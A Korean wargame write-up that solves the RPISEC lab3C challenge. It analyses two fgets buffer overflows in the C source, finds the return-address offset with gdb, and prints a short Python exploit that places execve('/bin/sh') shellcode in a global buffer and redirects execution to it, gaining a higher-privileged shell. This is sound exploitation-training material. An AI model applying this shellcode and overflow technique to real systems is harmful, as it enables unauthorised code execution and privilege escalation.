 ## 1. 문제 확인
- ID : lab3C
- Target : /level/lab03/lab3C
- flag : /home/lab3B/.pass
```
	lab3C@warzone:/levels/lab03$ ./lab3C
	********* ADMIN LOGIN PROMPT *********
	Enter Username: g4nzzi
	verifying username....

	nope, incorrect username...

	lab3C@warzone:/levels/lab03$
```

<br/><br/>
## 2. 취약점 분석
### 2.1 Source Code
```c
	#include <stdlib.h>
	#include <stdio.h>
	#include <string.h>

	/* gcc -z execstack -fno-stack-protector -o lab3C lab3C.c */

	char a_user_name[100];

	int verify_user_name()
	{
    	puts("verifying username....\n");
    	return strncmp(a_user_name, "rpisec", 6);
	}

	int verify_user_pass(char *a_user_pass)
	{
    	return strncmp(a_user_pass, "admin", 5);
	}

	int main()
	{
    	char a_user_pass[64] = {0};
    	int x = 0;

    	/* prompt for the username - read 100 byes */
    	printf("********* ADMIN LOGIN PROMPT *********\n");
    	printf("Enter Username: ");
    	fgets(a_user_name, 0x100, stdin);

    	/* verify input username */
    	x = verify_user_name();
    	if (x != 0){
        	puts("nope, incorrect username...\n");
        	return EXIT_FAILURE;
    	}

    	/* prompt for admin password - read 64 bytes */
    	printf("Enter Password: \n");
    	fgets(a_user_pass, 0x64, stdin);

    	/* verify input password */
    	x = verify_user_pass(a_user_pass);
    	if (x == 0 || x != 0){
        	puts("nope, incorrect password...\n");
        	return EXIT_FAILURE;
    	}

    	return EXIT_SUCCESS;
	}
```
### 2.2 Code 분석
#### 2.2.1 main()
- 전역변수 a_user_name 은 100byte 크기이지만 fgets()함수를 통해 256byte(0x100)를 입력받을 수 있으므로 overflow 발생 가능
```c
	char a_user_name[100];
  ...
  printf("********* ADMIN LOGIN PROMPT *********\n");
  printf("Enter Username: ");
  fgets(a_user_name, 0x100, stdin);
  ...
```
- 지역변수 a_user_pass 는 64byte 크기이지만 fgets()함수를 통해 100byte(0x64)를 입력받을 수 있으므로 overflow 발생 가능
```c
	char a_user_pass[64] = {0};
  ...
  printf("Enter Password: \n");
  fgets(a_user_pass, 0x64, stdin);
  ...
```
- a_user_name 는 초기화되지 않은 전역변수이므로 bss 섹션에 위치하고, 프로그램 실행 시 메모리 주소 확인이 가능함 (a_user_pass 는 지역변수이기 때문에 stack에 위치함)
```
	gdb-peda$ info variables
	All defined variables:

	...
	0x08049c20  stdin@@GLIBC_2.0
	0x08049c24  completed
	0x08049c40  a_user_name
	0x08049ca4  _end
	gdb-peda$
```
- a_user_pass 값에 104byte(AAAA~ZZZZ)를 입력하면 overflow가 발생하고 main()함수 리턴주소 위치가 UUUU(0x55555555) 부분임을 확인할 수 있음
```
	Starting program: /levels/lab03/lab3C
	********* ADMIN LOGIN PROMPT *********
	Enter Username: rpisec
	verifying username....

	Enter Password:	AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
  ...
  Stopped reason: SIGSEGV
	0x55555555 in ?? ()
	gdb-peda$
```
```
	[   a_user_pass  ] [dummy] [SFP][RET]
  AAAABBBBCCCCDDDDEEEEFFFF ~~ TTTTUUUUVVVVWWWWXXXXYYYYZZZZ
	                                ^
	|----------  (80byte) --------- |
```
- 쉘코드를 a_user_name 변수에 저장하고 a_user_pass 입력을 통해 overflow를 발생시켜, main()함수 리턴 주소를 쉘코드가 저장된 주소로 변경

<br/><br/>
## 3. Exploit
- verify_user_name() 체크를 통과하기 위해 "rpisec"(6byte) 문자와 쉘코드를 첫번째 입력값으로 넣고, 두번째 입력에서 임의의 80byte 문자와 리턴(쉘코드)주소를 입력함
  (쉘코드 주소는 a_user_name 주소(0x08049c40) + 6byte)
```python
	print("rpisec"+ "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")

	print("a"*80 + "\x46\x9c\x04\x08")
```
- 작성된 코드를 실행하여 입력 데이터를 만들고, 프로그램 실행 인자로 전달하면 쉘 획득
```
	lab3C@warzone:/levels/lab03$ python /tmp/lab3c.py > /tmp/lab3c_input
	lab3C@warzone:/levels/lab03$ (cat /tmp/lab3c_input; cat) | ./lab3C
	********* ADMIN LOGIN PROMPT *********
	Enter Username: verifying username....

	Enter Password:
	nope, incorrect password...

	id
	uid=1010(lab3C) gid=1011(lab3C) euid=1011(lab3B) groups=1012(lab3B),1001(gameuser),1011(lab3C)
```
